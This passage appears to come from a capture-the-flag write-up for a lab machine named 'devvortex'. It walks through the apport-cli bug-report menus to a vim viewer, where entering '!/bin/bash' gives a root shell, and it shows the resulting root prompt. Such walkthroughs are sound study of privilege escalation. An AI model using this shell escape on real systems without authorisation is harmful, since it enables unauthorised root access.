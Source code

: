 ```bash
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... 

.dpkg-query: no packages found matching xorg
..................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
```

At this point, we will be brought to a vim viewer. According to the PoC, we just have to enter `!/bin/bash` in the vim viewer to exit into a root shell.

```bash
# !/bin/bash in the vim viewer
root@devvortex:/home/logan# 
```

